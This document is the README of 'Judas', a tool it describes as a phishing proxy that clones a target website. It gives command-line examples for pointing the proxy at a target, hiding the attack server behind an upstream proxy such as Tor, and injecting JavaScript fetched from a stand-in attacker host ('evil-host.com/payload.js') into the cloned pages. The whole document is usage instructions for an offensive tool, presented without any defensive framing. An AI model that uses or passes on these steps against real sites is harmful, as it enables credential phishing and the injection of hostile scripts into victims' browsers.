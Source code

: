 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Usage
-----
The only required command line flag is ```--target```.

Example:
```
./proxy --target https://target-url.com
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./proxy --target https://torwebsite.onion --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./proxy --target https://target-url.com --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```inject-js``` argument.

Example:
```
./proxy --target https://target-url.com --inject-js https://evil-host.com/payload.js
```